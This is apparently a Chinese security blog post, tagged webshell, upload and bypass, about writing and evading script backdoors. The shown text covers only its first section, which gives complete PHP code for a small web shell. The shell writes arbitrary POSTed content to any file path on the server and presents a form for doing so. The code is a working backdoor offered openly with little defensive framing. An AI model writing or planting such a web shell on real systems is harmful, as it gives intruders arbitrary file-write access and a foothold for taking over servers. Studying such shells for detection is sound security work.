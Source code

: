 ```yaml
---
title: 一些脚本后门的分析、编写及绕过技巧
subtitle: 
summary: 
authors:
- admin
tags: ["webshell","upload","bypass"]
categories: ["Hack"]
date: "2017-05-20T00:00:00Z"
featured: false
draft: false

# Featured image
# To use, add an image named `featured.jpg/png` to your page's folder. 
image:
  caption: ""
  focal_point: ""

# Projects (optional).
#   Associate this post with one or more of your projects.
#   Simply enter your project's folder or file name without extension.
#   E.g. `projects = ["internal-project"]` references 
#   `content/project/deep-learning/index.md`.
#   Otherwise, set `projects = []`.
projects: []
---
```


## 0x00 PHP小马

表单中

- action属性为要提交的地址；
- PHP_SELF获取当前文件；
- DOCUMENT_ROOT获取当前运行脚本所在的文档根目录；
- textarea为多行文本输入框；

```php
<?
$path=$_POST['path'];
$data=$_POST['data'];
$file=fopen($path,"w+");
fwrite($file,$data);
fclose($file);
?>

<form action="" method="post">
读取当前文件路径：
<? echo $_SERVER['DOCUMENT_ROOT'].$_SERVER['PHP_SELF'];?></br>
保存路径：<input name="path" type="text" /><br>
写入内容：<br><textarea name="data" cols="90" rows="50"></textarea></br>
<input name="" type="submit" value="提交"/>
</form>
```
